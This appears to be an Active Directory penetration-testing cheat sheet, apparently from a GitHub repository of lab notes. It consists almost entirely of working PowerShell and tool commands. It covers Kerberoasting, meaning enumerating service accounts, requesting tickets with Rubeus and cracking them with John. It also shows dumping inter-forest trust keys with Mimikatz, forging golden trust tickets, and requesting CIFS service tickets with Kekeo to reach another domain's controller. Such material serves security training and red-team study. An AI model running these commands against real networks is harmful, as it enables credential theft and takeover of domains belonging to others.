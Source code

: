 ```powershell
# 1. Find user accounts used as Service account
# Powerview
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}

# AD Module
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName -Server $_.Name}

# 2. Request a TGS
Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt

# 3. Check for the TGS
klist

# 4. Crack the ticket
john.exe --wordlist=10k-worst-pass.txt hashes.txt

# 5. Request TGS across trust
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```

### Forest Root Trust Key

##### Methodology/Steps

>   1.  Dump the trust keys of the inter-forest trusts
>   2.  Note the SID of the current Domain, SID of the target Domain and the rc4_hmac_nt(Trust Key) of the target Domain. (example : *ecorp$*)
>   3.  We can forge a inter-forest TGT with the proper *target* and *rc4* parameters
>   4.  Now request a TGS using **asktgs.exe**
>   5.  Now Inject the TGS in the memory
>   6.  Now we can access all the shared files admin DC

------

##### Invoke-Mimikatz

```powershell
# 1. We require the trust key of inter-forest trust
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

# 2. Forge the inter-forest TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-... /sids:S-1-5-21-2781415573-...-519 /rc4:b59...979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:trust_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799...75a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-...-519 /ticket:sharedwitheu.kirbi"'

# 3. Request a TGS [keko]
# Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket with Kekeo
tgs::ask /tgt:trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local

# 4. Inject and use the TGS
# Use the TGS to access the targeted service (may need to use it twice)
```
